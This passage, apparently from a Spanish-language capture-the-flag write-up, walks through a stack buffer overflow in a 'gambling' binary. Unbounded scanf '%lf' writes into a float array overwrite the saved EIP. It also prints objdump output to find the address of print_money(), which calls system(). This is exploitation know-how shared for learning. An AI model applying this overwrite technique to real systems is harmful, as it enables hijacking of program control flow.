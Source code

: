 ```
[ f[0] ]  bytes 0x00–0x03
[ f[1] ]         0x04–0x07
[ f[2] ]         0x08–0x0B
[ f[3] ]         0x0C–0x0F
[ target ]       0x10–0x13
[ saved EBP ]    0x14–0x17
[ saved EIP ]    0x18–0x1B   ← aquí está la dirección de salto $eip
```

Ahora, cada vez que `scanf` lee un `%lf` en, por ejemplo, `f+i`, escribe 8 bytes empezando en la posición de `f+i` de la siguiente forma:

1. Para `i=0…3` escribes dentro de `f[0]…f[3]` (aunque pisas dos floats a la vez).

2. Con `i=4` (puntero f+4) empiezas a sobrescribir target (no es lo que queremos en este caso).

3. Con `i=5` (f+5) pisas saved EBP (no es útil para nuestro salto).

4. Con `i=6` (f+6) comienzas en `0x18` y pisas los 4 bytes de `saved EIP` (y otros 4 bytes adyacentes que no nos importan).

Llegados a este punto, podemos controlar la dirección de salto de nuestro programa, pero para ello necesitamos la dirección de memoria de la función `print_money()` para llegar a ejecutarla.

Para ello ejecutamos `objdump` y dumpeamos las direcciones de memoria de cada instrucción de la siguiente manera.

    ┌──(kesero㉿kali)-[~]
    └─$ objdump -d gambling

    080492a0 <rand_float>:
    80492a0:	83 ec 1c             	sub    $0x1c,%esp
    80492a3:	e8 f8 fd ff ff       	call   80490a0 <rand@plt>
    80492a8:	89 44 24 0c          	mov    %eax,0xc(%esp)
    80492ac:	db 44 24 0c          	fildl  0xc(%esp)
    80492b0:	d8 0d 70 a0 04 08    	fmuls  0x804a070
    80492b6:	83 c4 1c             	add    $0x1c,%esp
    80492b9:	c3                   	ret
    80492ba:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi

    080492c0 <print_money>:
    80492c0:	83 ec 18             	sub    $0x18,%esp
    80492c3:	68 08 a0 04 08       	push   $0x804a008
    80492c8:	e8 a3 fd ff ff       	call   8049070 <system@plt>
    80492cd:	83 c4 1c             	add    $0x1c,%esp
    80492d0:	c3                   	ret
    80492d1:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
    80492d8:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
    80492df:	90                   	nop

    080492e0 <gamble>:
    80492e0:	83 ec 2c             	sub    $0x2c,%esp
    80492e3:	e8 b8 fd ff ff       	call   80490a0 <rand@plt>
    80492e8:	83 ec 08             	sub    $0x8,%esp
    80492eb:	89 44 24 14          	mov    %eax,0x14(%esp)
    80492ef:	db 44 24 14          	fildl  0x14(%esp)
    80492f3:	d8 0d 70 a0 04 08    	fmuls  0x804a070
    80492f9:	d9 5c 24 14          	fstps  0x14(%esp)
